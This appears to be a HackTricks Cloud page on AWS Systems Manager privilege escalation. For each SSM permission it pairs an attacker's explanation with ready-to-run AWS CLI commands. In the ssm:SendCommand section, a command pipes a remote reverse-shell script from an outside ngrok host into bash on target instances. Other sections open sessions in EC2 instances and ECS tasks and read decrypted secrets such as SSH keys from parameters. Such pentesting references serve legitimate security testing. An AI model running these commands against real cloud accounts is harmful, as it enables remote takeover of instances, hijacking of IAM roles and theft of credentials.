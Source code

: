 # AWS - SSM Privesc

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SSM

For more info about SSM check:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

An attacker with the permission **`ssm:SendCommand`** can **execute commands in instances** running the Amazon SSM Agent and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running.

### `ssm:StartSession`

An attacker with the permission **`ssm:StartSession`** can **start a SSH like session in instances** running the Amazon SSM Agent and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running.

#### Privesc to ECS

When **ECS tasks** run with **`ExecuteCommand` enabled** users with enough permissions can use `ecs execute-command` to **execute a command** inside the container.\
According to [**the documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) this is done by creating a secure channel between the device you use to initiate the “_exec_“ command and the target container with SSM Session Manager.\
Therefore, users with `ssm:StartSession` will be able to **get a shell inside ECS tasks** with that option enabled just running:

```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```

![](<../../../.gitbook/assets/image (55).png>)

**Potential Impact:** Direct privesc to the `ECS`IAM roles attached to running tasks with `ExecuteCommand` enabled.

### `ssm:ResumeSession`

An attacker with the permission **`ssm:ResumeSession`** can re-**start a SSH like session in instances** running the Amazon SSM Agent with a **disconnected** SSM session state and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
    --session-id Mary-Major-07a16060613c408b5
```

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running and disconected sessions.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

An attacker with the mentioned permissions is going to be able to list the **SSM parameters** and **read them in clear-text**. In these parameters you can frequently **find sensitive information** such as SSH keys or API keys.

```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```

**Potential Impact:** Find sensitive information inside the parameters.

### `ssm:ListCommands`

An attacker with this permission can list all the **commands** sent and hopefully find **sensitive information** on them.

```
aws ssm list-commands
```

**Potential Impact:** Find sensitive information inside the command lines.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

An attacker with these permissions can list all the **commands** sent and **read the output** generated hopefully finding **sensitive information** on it.

```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```

**Potential Impact:** Find sensitive information inside the output of the command lines.

### Codebuild

You can also use SSM to get inside a codebuild project being built:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
